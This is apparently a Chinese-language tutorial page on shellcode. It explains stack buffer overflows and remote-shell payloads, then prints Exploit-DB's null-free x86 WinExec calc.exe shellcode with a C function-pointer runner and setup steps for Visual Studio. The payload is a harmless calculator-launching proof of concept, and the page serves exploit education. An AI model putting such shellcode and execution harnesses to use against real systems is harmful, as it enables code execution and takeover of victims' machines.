 # ShellCode
## shellcode
>[exploit-db shellcode](https://www.exploit-db.com/shellcodes)
1. 栈溢出漏洞，当向栈中的局部变量拷贝了超长的数据，覆盖了在局部变量的内存空间之后的函数返回地址。那么当函数返回的时候就会跳转到覆盖后新的地址。那么跳转到新的地址后，这一段新的地址的数据，如果是可执行的一段代码。那么这段代码就会被执行。这段代码当然是需要攻击者来编写的，攻击者通过这段代码来实现攻击之后的控制等等功能。
2. 早期，黑客在攻击了一个系统以后，最常使用的控制方式是创建一个远程的shell，这要黑客就可以远程通过命令的方式控制目标计算机了。就像我们现在的ssh远程控制计算机一样。不过ssh是管理员主动开启的，黑客攻击后的shellcode是通过漏洞非法入侵后开启的。
3. 由于早期的黑客攻击后通常是开启一个shell，所以这段在缓存区溢出以后跳转执行的一段代码，就被称为shellcode。现在，shellcode的功能已经很多了。但是总体的目的还是对远程的目标计算机进行控制。
4. 此处[exploit-db shellcode](https://www.exploit-db.com/shellcodes)有很多shellcode，各个平台的，能实现很多不同的功能。
## [Null-Free WinExec Calc.exe Shellcode](https://www.exploit-db.com/shellcodes/48116)
1. 这个shellcode的功能是运行一个计算器程序。这个是在编写PoC时最常使用的一种方法,能证明系统被控制，因为如果能悄无声息的运行计算机程序，理论上来说就能运行任何程序
2. 下面是一段C语言的代码。其中汇编部分是源代码。C语言中的 code 变量，是上面的汇编代码在编译以后的二进制程序。这一段就是可运行的shellcode了。然后下面的main函数，是吧这个code运行起来。
```cpp
#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char **argv)
{
  int (*func)();
  func = (int(*)()) code;
  (int)(*func)();
}
```
3. 这一段代码用到了一个较为高级的C语言语法，函数指针。              
![](./img/calmain.png)                              
* 定义了一个函数指针变量，func
* 这个函数指针的变量类型是 int(*)().表示返回值是int，参数列表为空的一个函数。
* 在main函数的第二行，把全局变量 code 赋值给 func。并强制类型转换为 int(*)() 类型的函数指针。这样 func就有值了。
* 就可以被调用了，由于func所指向的地址，就是code的地址，所有调用func的时候，运行的就是 code里面的那一堆二进制代码。
4. 现在VS中建一个空工程，把整个C语言部分复制到VS中。         